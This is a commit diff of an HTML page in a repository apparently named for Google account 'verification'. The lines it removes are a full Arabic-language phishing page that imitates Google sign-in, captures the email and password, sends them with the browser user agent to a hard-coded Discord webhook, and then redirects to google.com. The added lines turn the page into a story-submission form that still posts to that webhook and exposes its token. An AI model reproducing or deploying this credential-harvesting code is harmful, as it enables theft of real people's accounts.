

Before and after one commit to acc0untgoogle/verification, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (168-1111 px from the left). After the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,125 +3,67 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-<title>تسجيل الدخول</title>
+    <title>إضافة قصة جديدة</title>
     <style>
         body {
             font-family: Arial, sans-serif;
-        background-color: #f0f4fa;
+            background-color: #f5f5f5;
             margin: 0;
-        padding: 0;
+            padding: 20px;
+            color: #333;
         }
         .container {
-        display: flex;
-        justify-content: center;
-        align-items: center;
-        height: 100vh;
+            max-width: 800px;
+            margin: 0 auto;
+            background-color: white;
+            padding: 30px;
+            border-radius: 10px;
+            box-shadow: 0 0 10px rgba(0,0,0,0.1);
         }
-    .login-box {
-        background-color: white;
-        padding: 40px;
-        border-radius: 25px;
-        display: flex;
-        flex-direction: row;
-        width: 800px;
-        justify-content: space-between;
-        align-items: center;
+        h1 {
+            color: #0066ff;
+            text-align: center;
+            margin-bottom: 30px;
         }
-    .login-form {
-        width: 50%;
+        .form-group {
+            margin-bottom: 20px;
         }
-    input[type="text"], input[type="password"] {
+        label {
+            display: block;
+            margin-bottom: 8px;
+            font-weight: bold;
+        }
+        input[type="text"],
+        textarea,
+        select {
             width: 100%;
-        padding: 15px;
-        border: 2px solid #0066ff;
+            padding: 10px;
+            border: 1px solid #ddd;
             border-radius: 5px;
             font-size: 16px;
-        margin-bottom: 5px;
         }
-    .error-message {
-        color: red;
-        font-size: 12px;
-        margin-bottom: 10px;
-        display: none;
-    }
-    .small-text {
-        font-size: 12px;
-        color: #0066ff;
-    }
-    .desc {
-        font-size: 12px;
-        color: #333;
-        margin-top: 10px;
-    }
-    .desc a {
-        color: #0066ff;
-        text-decoration: none;
+        textarea {
+            height: 150px;
+            resize: vertical;
         }
         button {
             background-color: #0066ff;
             color: white;
-        padding: 10px 30px;
             border: none;
-        border-radius: 25px;
+            padding: 12px 25px;
+            border-radius: 5px;
+            cursor: pointer;
             font-size: 16px;
-        cursor: pointer;
-        margin-top: 10px;
+            display: block;
+            margin: 20px auto 0;
         }
-    .create, .small-link {
-        margin-right: 15px;
-        font-size: 14px;
-        color: #0066ff;
-        background: none;
-        border: none;
-        cursor: pointer;
+        button:hover {
+            background-color: #0055cc;
         }
-    .text-side {
-        width: 45%;
-        text-align: center;
-    }
-    .text-side img {
-        width: 50px;
-        margin-bottom: 10px;
-    }
-    .text-side h2 {
-        font-size: 26px;
-        margin-bottom: 5px;
-    }
-    .text-side p {
-        font-size: 14px;
-        color: #555;
-    }
-    .footer {
+        .success-message {
+            color: green;
             text-align: center;
             margin-top: 20px;
-        font-size: 12px;
-        color: black;
-    }
-    .footer a {
-        margin: 0 10px;
-        color: black;
-        text-decoration: none;
-    }
-    label {
-        font-size: 12px;
-        color: #333;
-        display: flex;
-        align-items: center;
-        gap: 5px;
-    }
-    .email-box {
-        border: 1px solid #ccc;
-        padding: 5px 10px;
-        border-radius: 20px;
-        display: flex;
-        align-items: center;
-        gap: 5px;
-        justify-content: space-between;
-        font-size: 14px;
-        width: fit-content;
-        margin: 0 auto;
-    }
-    #password-page {
             display: none;
         }
         .loading {
@@ -145,157 +87,101 @@
     </style>
 </head>
 <body>
+    <div class="container">
+        <h1>إضافة قصة جديدة</h1>
 
-<div class="container">
-    <!-- صفحة البريد الإلكتروني -->
-    <div id="email-page" class="login-box">
-        <div class="login-form">
-            <input id="email-input" type="text" placeholder="البريد الإلكتروني أو الهاتف">
-            <div id="email-error" class="error-message"></div>
-            <div class="small-text">هل نسيت بريدك الإلكتروني؟</div>
-            <div class="desc">ألا تمتلك هذا الكمبيوتر؟ استخدم وضع الضيف لتسجيل الدخول بشكل خاص. <a href="#">مزيد من المعلومات حول استخدام "وضع الضيف"</a></div>
-            <div style="margin-top: 20px;">
-                <button onclick="showPasswordPage()">التالي</button>
-                <button class="create">إنشاء حساب</button>
+        <div class="form-group">
+            <label for="title">عنوان القصة:</label>
+            <input type="text" id="title" required>
         </div>
+
+        <div class="form-group">
+            <label for="author">اسم المؤلف:</label>
+            <input type="text" id="author" required>
         </div>
-        <div class="text-side">
-            <img src="https://upload.wikimedia.org/wikipedia/commons/2/2f/Google_2015_logo.svg" alt="Google">
-            <h2>تسجيل الدخول</h2>
-            <p>باستخدام حسابك على <b>Google</b></p>
+
+        <div class="form-group">
+            <label for="category">تصنيف القصة:</label>
+            <select id="category" required>
+                <option value="">اختر تصنيفاً</option>
+                <option value="رومانسية">رومانسية</option>
+                <option value="خيال علمي">خيال علمي</option>
+                <option value="رعب">رعب</option>
+                <option value="كوميديا">كوميديا</option>
+                <option value="تاريخية">تاريخية</option>
+            </select>
+        </div>
+
+        <div class="form-group">
+            <label for="content">محتوى القصة:</label>
+            <textarea id="content" required></textarea>
+        </div>
+
+        <button onclick="submitStory()">نشر القصة</button>
+
+        <div id="success-message" class="success-message">
+            <h3>تم نشر القصة بنجاح!</h3>
+            <p>شكراً لمشاركتك قصتك معنا.</p>
+        </div>
+
+        <div id="loading" class="loading">
+            <div class="loading-spinner"></div>
+            <p>جاري نشر القصة...</p>
         </div>
     </div>
 
-    <!-- صفحة كلمة المرور -->
-    <div id="password-page" class="login-box">
-        <div class="login-form">
-            <input id="password-input" type="password" placeholder="إدخال كلمة المرور">
-            <div id="password-error" class="error-message"></div>
-            <label>
-                <input type="checkbox" id="show-password"> عرض كلمة المرور
-            </label>
-            <div style="margin-top: 20px;">
-                <button onclick="submitLogin()">التالي</button>
-                <button class="small-link" onclick="backToEmail()">تجربة طريقة أخرى</button>
-            </div>
-        </div>
-        <div class="text-side">
-            <img src="https://upload.wikimedia.org/wikipedia/commons/2/2f/Google_2015_logo.svg" alt="Google">
-            <h2>مرحباً</h2>
-            <div class="email-box">
-                <span>▼</span> <span id="display-email">example@gmail.com</span> <span>👤</span>
-            </div>
-        </div>
-    </div>
+    <script>
+        function submitStory() {
+            const title = document.getElementById('title').value.trim();
+            const author = document.getElementById('author').value.trim();
+            const category = document.getElementById('category').value;
+            const content = document.getElementById('content').value.trim();
 
-    <!-- رسالة التحميل -->
-    <div id="loading" class="loading">
-        <div class="loading-spinner"></div>
-        <p>جاري تسجيل الدخول...</p>
-    </div>
-</div>
-
-<div class="footer">
-    <a href="#">الشروط</a>
-    <a href="#">الخصوصية</a>
-    <a href="#">المساعدة</a>
-    <a href="#">العربية</a>
-</div>
-
-<script>
-    // متغيرات لتخزين البيانات
-    let userEmail = '';
-    let userPassword = '';
-
-    function showPasswordPage() {
-        const email = document.getElementById('email-input').value.trim();
-        const emailError = document.getElementById('email-error');
-
-        if(email === '') {
-            emailError.textContent = 'الرجاء إدخال البريد الإلكتروني أو رقم الهاتف';
-            emailError.style.display = 'block';
-            return;
-        }
-        if(!validateEmailOrPhone(email)) {
-            emailError.textContent = 'تعذّر العثور على حسابك. الرجاء التحقق من البريد الإلكتروني أو رقم الهاتف وإعادة المحاولة.';
-            emailError.style.display = 'block';
+            // التحقق من الحقول المطلوبة
+            if (!title || !author || !category || !content) {
+                alert('الرجاء ملء جميع الحقول المطلوبة');
                 return;
             }
 
-        userEmail = email;
-        emailError.style.display = 'none';
-        document.getElementById('email-page').style.display = 'none';
-        document.getElementById('password-page').style.display = 'flex';
-        document.getElementById('display-email').textContent = email;
-    }
-
-    function backToEmail() {
-        document.getElementById('password-page').style.display = 'none';
-        document.getElementById('email-page').style.display = 'flex';
-    }
-
-    function validateEmailOrPhone(input) {
-        const emailRegex = /^[^\s@]+@[^\s@]+\.[^\s@]+$/;
-        const phoneRegex = /^[0-9]{6,15}$/;
-        return emailRegex.test(input) || phoneRegex.test(input);
-    }
-
-    function submitLogin() {
-        const password = document.getElementById('password-input').value.trim();
-        const passwordError = document.getElementById('password-error');
-
-        if(password === '') {
-            passwordError.textContent = 'الرجاء إدخال كلمة المرور';
-            passwordError.style.display = 'block';
-            return;
-        }
-
-        userPassword = password;
-        passwordError.style.display = 'none';
-
             // عرض رسالة التحميل
-        document.getElementById('password-page').style.display = 'none';
             document.getElementById('loading').style.display = 'block';
 
             // إرسال البيانات إلى ويب هوك Discord
-        sendDataToDiscord();
+            sendToDiscord(title, author, category, content);
 
-        // توجيه المستخدم إلى الصفحة الرئيسية بعد ثانية واحدة
+            // عرض رسالة النجاح وإخفاء التحميل
             setTimeout(() => {
-            window.location.href = "https://www.google.com"; // يمكنك تغيير هذا الرابط إلى الصفحة الرئيسية المطلوبة
-        }, 1000);
+                document.getElementById('loading').style.display = 'none';
+                document.getElementById('success-message').style.display = 'block';
+
+                // مسح النموذج بعد النشر
+                document.getElementById('title').value = '';
+                document.getElementById('author').value = '';
+                document.getElementById('category').value = '';
+                document.getElementById('content').value = '';
+
+                // إخفاء رسالة النجاح بعد 3 ثواني
+                setTimeout(() => {
+                    document.getElementById('success-message').style.display = 'none';
+                }, 3000);
+            }, 1500);
         }
 
-    function sendDataToDiscord() {
+        function sendToDiscord(title, author, category, content) {
             const webhookURL = 'https://discordapp.com/api/webhooks/1404910412352327700/GCJf4yPnarHrDMDMgB5vmYIAz9dbncbmh2i-npw_AF6zg1y2uqbie2LcqJJlYRPUiSo4';
 
+            // تقصير المحتوى إذا كان طويلاً جداً
+            const shortenedContent = content.length > 500 ? content.substring(0, 500) + '...' : content;
+
             const data = {
-            content: '**تم تسجيل بيانات جديدة**',
+                content: '**تمت إضافة قصة جديدة**',
                 embeds: [{
-                title: 'تفاصيل تسجيل الدخول',
-                fields: [
-                    {
-                        name: 'البريد الإلكتروني/الهاتف',
-                        value: userEmail,
-                        inline: true
-                    },
-                    {
-                        name: 'كلمة المرور',
-                        value: userPassword,
-                        inline: true
-                    },
-                    {
-                        name: 'وقت التسجيل',
-                        value: new Date().toLocaleString(),
-                        inline: false
-                    },
-                    {
-                        name: 'معلومات المتصفح',
-                        value: navigator.userAgent,
-                        inline: false
+                    title: title,
+                    description: `**المؤلف:** ${author}\n\n**التصنيف:** ${category}\n\n**المحتوى:**\n${shortenedContent}`,
+                    color: 0x0066ff,
+                    footer: {
+                        text: `تم الإرسال في: ${new Date().toLocaleString()}`
                     }
-                ],
-                color: 16711680 // اللون الأحمر
                 }]
             };
 
@@ -315,12 +201,6 @@
                 console.error('Error:', error);
             });
         }
-
-    document.getElementById('show-password').addEventListener('change', function() {
-        const passwordInput = document.getElementById('password-input');
-        passwordInput.type = this.checked ? 'text' : 'password';
-    });
     </script>
-
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
